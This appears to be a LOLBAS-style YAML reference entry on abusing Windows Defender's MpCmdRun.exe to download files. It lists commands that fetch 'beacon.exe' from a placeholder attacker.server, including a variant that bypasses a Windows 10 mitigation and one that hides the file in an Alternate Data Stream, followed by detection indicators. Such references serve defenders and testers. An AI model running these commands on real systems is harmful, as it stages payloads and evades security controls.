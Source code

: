```yaml
---
Name: MpCmdRun.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender
Author: "Oddvar Moe"
Created: "09/03/2020"
Commands:
  - Command: MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\beacon.exe
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path)
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows 10
  - Command: copy "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" C:\Users\Public\Downloads\MP.exe && chdir "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\" && "C:\Users\Public\Downloads\MP.exe" -DownloadFile -url https://attacker.server/beacon.exe -path C:\Users\Public\Downloads\evil.exe
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path) [updated version to bypass Windows 10 mitigation]
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows 10
  - Command: MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\nicefile.txt:evil.exe
    Description: Download file to machine and store it in Alternate Data Stream
    Usecase: Hide downloaded data inton an Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.7-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe
Code_Sample:
  - Code:
Detection:
  - IOC: MpCmdRun storing data into alternate data streams.
  - IOC: MpCmdRun getting a file from a remote machine or the internet that is not expected.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching mpcmdrun.exe.
  - IOC: Monitor for the creation of %USERPROFILE%\AppData\Local\Temp\MpCmdRun.log
  - IOC: User Agent is "MpCommunication"
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus
  - Link: https://twitter.com/mohammadaskar2/status/1301263551638761477
  - Link: https://twitter.com/Oddvarmoe/status/1301444858910052352
  - Link: https://twitter.com/NotMedic/status/1301506813242867720
Acknowledgement:
  - Person: Askar
    Handle: "@mohammadaskar2"
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
  - Person: RichRumble
    Handle: ""
  - Person: Cedric
    Handle: "@th3c3dr1c"
---
```

